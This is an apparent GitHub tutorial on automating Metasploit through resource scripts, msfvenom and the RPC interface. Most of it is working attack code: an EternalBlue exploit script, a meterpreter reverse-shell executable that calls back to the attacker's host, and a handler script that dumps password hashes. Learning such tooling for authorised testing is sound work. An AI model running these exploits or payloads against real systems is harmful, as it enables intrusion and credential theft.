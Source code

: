 # Automating Tasks in Metasploit

## Introduction
Automating tasks in Metasploit can significantly improve efficiency, reduce repetitive manual work, and streamline penetration testing operations. Automation allows security professionals to execute predefined tasks quickly and consistently. This document covers scripting in Metasploit, resource scripts, automation with MSFConsole, and using Metasploit RPC for deeper automation.

## Table of Contents
- [Using Resource Scripts](#using-resource-scripts)
- [Automating with MSFConsole](#automating-with-msfconsole)
- [Metasploit RPC for Advanced Automation](#metasploit-rpc-for-advanced-automation)
- [Example: Automating Exploit Execution](#example-automating-exploit-execution)
- [Conclusion](#conclusion)

## Using Resource Scripts
Metasploit allows scripting with resource files (`.rc` scripts) that contain a series of commands to be executed automatically.

### Creating a Resource Script
A resource script is a text file containing Metasploit commands that execute sequentially.

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.10
set LPORT 4444
exploit -j
```

### Running a Resource Script
Save the above commands as `exploit_script.rc` and run it in MSFConsole:

```bash
msfconsole -r exploit_script.rc
```

## Automating with MSFConsole
Metasploit provides built-in automation capabilities within MSFConsole.

### AutoRunScripts in Meterpreter
Meterpreter can execute scripts automatically upon session creation.

```bash
set AutoRunScript post/windows/manage/migrate
```

This ensures that upon a successful exploit, the Meterpreter session will immediately migrate to another process.

### Automating Payload Generation
You can automate payload creation using msfvenom in a script:

```bash
#!/bin/bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```

Save it as `generate_payload.sh` and execute it:

```bash
chmod +x generate_payload.sh
./generate_payload.sh
```

## Metasploit RPC for Advanced Automation
Metasploit provides an RPC (Remote Procedure Call) service that allows external applications to interact with it programmatically.

### Starting the RPC Server
Run the following command inside Metasploit:

```bash
load msgrpc ServerPort=55553 User=msf Pass=secret
```

### Automating Exploits with Python
You can automate Metasploit tasks using Python and the msfrpc library.

#### Install Dependencies:
```bash
pip install msfrpc
```

#### Python Script to Launch an Exploit:
```python
from metasploit.msfrpc import MsfRpcClient

client = MsfRpcClient('secret', port=55553)
exploit = client.modules.use('exploit', 'windows/smb/ms17_010_eternalblue')
exploit['RHOSTS'] = '192.168.1.100'
exploit.execute()
```

## Example: Automating Exploit Execution
This example automates an entire attack process, including:
- Selecting an exploit
- Setting parameters
- Executing the exploit
- Running post-exploitation commands

### Resource Script Example (`automate_attack.rc`)
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run -j

sessions -i 1
sysinfo
hashdump
```

Run the script:
```bash
msfconsole -r automate_attack.rc
```

## Conclusion
Automation in Metasploit enhances efficiency and effectiveness in penetration testing. By leveraging resource scripts, MSFConsole automation, and Metasploit RPC, security professionals can streamline their workflows, execute exploits faster, and improve overall assessment efficiency. Always use automation responsibly within legal and ethical boundaries.

